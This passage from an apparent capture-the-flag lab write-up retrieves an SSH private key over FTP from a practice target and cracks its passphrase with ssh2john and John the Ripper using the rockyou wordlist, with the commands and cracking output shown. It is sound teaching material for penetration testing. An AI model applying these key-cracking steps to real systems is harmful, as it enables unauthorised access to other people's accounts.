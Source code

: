 ```bash
1743 bytes received in 0.00 secs (1.0318 MB/s)

ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (78 bytes).
226 Transfer complete.
78 bytes received in 0.00 secs (15.3079 kB/s)
```

I looked at the note.txt file. It contains an explanation (a bad one) about why there is an ssh key in there.

```
cat note.txt 
I always forget my password. Just let me store an ssh key here.
- errorcauser
```

I tried using the ssh key with the `errorcauser` username to connect to the server, but it requires a password.

```bash
$ chmod 600 id_rsa 

$ ssh errorcauser@target -i id_rsa 
The authenticity of host 'target (10.10.48.223)' can't be established.
ECDSA key fingerprint is SHA256:UR0k9a7qaFtt3RxI1gSKeBdDz+4jrasPZ6i0Mtkq10Y.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target,10.10.48.223' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
```

So I started cracking it's password with John. If you don't know how to do it, the room has some explanation. 

```bash
$ python2 /usr/share/john/ssh2john.py id_rsa > john.hash

$ john john.hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
SSH_KEY_PASSWORD (id_rsa)
1g 0:00:00:29 DONE (2021-04-17 09:38) 0.03417g/s 490146p/s 490146c/s 490146C/sa6_123..*7¡Vamos!
Session completed

```

This gave me the answers to the two questions of the section.
